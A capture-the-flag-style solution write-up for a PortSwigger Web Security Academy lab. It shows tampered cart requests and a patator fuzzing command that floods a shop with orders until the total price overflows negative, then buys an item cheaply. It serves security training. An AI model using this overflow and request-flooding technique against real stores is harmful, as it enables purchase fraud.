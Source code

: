 # [Lab 3: Low-level logic flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-low-level)

---

## Description

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

Log in with the credentials `wiener:peter` and add a "Lightweight l33t lealther jacket" to your cart, generating the following request:

```http
POST /cart HTTP/1.1
Host: aca01fd91e85f06981090a23002c0089.web-security-academy.net
Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net
Dnt: 1
Referer: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&redir=PRODUCT&quantity=1
```

Navigate to the cart and attempt to check out, generating the following request:

```http
POST /cart/checkout HTTP/1.1
Host: aca01fd91e85f06981090a23002c0089.web-security-academy.net
Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net
Dnt: 1
Referer: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/cart?err=INSUFFICIENT_FUNDS
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=FR6zwPnEiM9oxlSmy2STPuaYa3D35hQ1
```

Nothing seems wrong here. The web application probably ties the `csrf` token and/or the `session` cookie to know which user's cart to process.

Intercept the request for removing the item from the cart:

```http
POST /cart HTTP/1.1
Host: aca01fd91e85f06981090a23002c0089.web-security-academy.net
Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net
Dnt: 1
Referer: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/cart?err=INSUFFICIENT_FUNDS
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&quantity=-1&redir=CART
```

Tamper with the request and attempt to add `-10` quantity of the leather jacket to the cart.

```http
POST /cart HTTP/1.1
Host: aca01fd91e85f06981090a23002c0089.web-security-academy.net
Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net
Dnt: 1
Referer: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/cart?err=INSUFFICIENT_FUNDS
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&quantity=-10&redir=CART
```

This results in the cart being emptied, as it should be.

Attempt to add the leather jacket with quantity of a very large integer value.

```http
POST /cart HTTP/1.1
Host: aca01fd91e85f06981090a23002c0089.web-security-academy.net
Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net
Dnt: 1
Referer: https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/cart?err=INSUFFICIENT_FUNDS
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&quantity=9223372036854775807&redir=CART
```

The application responds with:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 29

"Invalid parameter: quantity"
```

In fact, any quantity greater than or equal to 100 results in this error.

So the quantity value itself can't be overflowed. Can the total price be though? Repeatedly submit the request to adds 99 leather jackets to the cart indefinitely. Monitor the cart page and determine if the total value ever shows any indication of overflowing.

```bash
patator http_fuzz url='https://aca01fd91e85f06981090a23002c0089.web-security-academy.net/cart' method=POST body='productId=1&quantity=99&redir=CART' header='Cookie: session=G382eevZRoJNMpKKD2ALUrgnchZZhD5j' -x retry:code=302 --max-retries=-1
```

![](images/Pasted%20image%2020210824211314.png)

Eventually, the total value does overflow and becomes a negative value. Attempt to place the order.

![](images/Pasted%20image%2020210824211517.png)

The application throws an error indicating that the total price can't be less than zero. However, as the quantities of leather jackets increases, the total price increases. Continue adding jackets until the price gets as close as possible to being between $0 and $100. Then, begin adding a few quantities of other items to get the price to settle between $0 and $100.

![](images/Pasted%20image%2020210824213449.png)

Place the order and complete the challenge.

![](images/Pasted%20image%2020210824213609.png)

